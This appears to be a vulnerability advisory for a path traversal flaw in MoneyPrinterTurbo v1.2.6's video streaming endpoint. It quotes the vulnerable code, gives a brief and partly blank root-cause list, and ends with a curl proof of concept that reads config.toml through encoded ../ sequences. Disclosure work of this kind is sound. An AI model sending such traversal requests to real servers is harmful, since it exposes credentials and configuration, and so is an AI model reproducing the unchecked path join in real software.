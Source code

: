 A critical path traversal vulnerability (CWE-22) has been identified in the `/stream/{file_path:path}"` endpoint of MoneyPrinterTurbo. This vulnerability allows unauthenticated attackers to read arbitrary files on the server filesystem, potentially leading to complete system compromise through exposure of sensitive configuration files, source code, and credentials.

version: v1.2.6

## Affected Code

```python
# https://github.com/harry0703/MoneyPrinterTurbo/blob/v1.2.6/app/controllers/v1/video.py#L227

@router.get("/stream/{file_path:path}")
async def stream_video(request: Request, file_path: str):
    tasks_dir = utils.task_dir()
    video_path = os.path.join(tasks_dir, file_path)
    range_header = request.headers.get("Range")
    video_size = os.path.getsize(video_path)
    start, end = 0, video_size - 1

    length = video_size
    if range_header:
        range_ = range_header.split("bytes=")[1]
        start, end = [int(part) if part else None for part in range_.split("-")]
        if start is None:
            start = video_size - end
            end = video_size - 1
        if end is None:
            end = video_size - 1
        length = end - start + 1

    def file_iterator(file_path, offset=0, bytes_to_read=None):
        with open(file_path, "rb") as f:
            f.seek(offset, os.SEEK_SET)
            remaining = bytes_to_read or video_size
            while remaining > 0:
                bytes_to_read = min(4096, remaining)
                data = f.read(bytes_to_read)
                if not data:
                    break
                remaining -= len(data)
                yield data

    response = StreamingResponse(
        file_iterator(video_path, start, length), media_type="video/mp4"
    )
    response.headers["Content-Range"] = f"bytes {start}-{end}/{video_size}"
    response.headers["Accept-Ranges"] = "bytes"
    response.headers["Content-Length"] = str(length)
    response.status_code = 206  # Partial Content

    return response
```

## Root Cause Analysis

The vulnerability occurs because:

1. **No Authentication Required**
2. **Direct Path Construction**: 
3. **No Traversal Prevention**: The code does not check for `../` sequences or absolute paths


An attacker can read sensitive configuration files:

```bash
curl "http://target:8080/api/v1/stream/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fMoneyPrinterTurbo%2fconfig.toml"
```
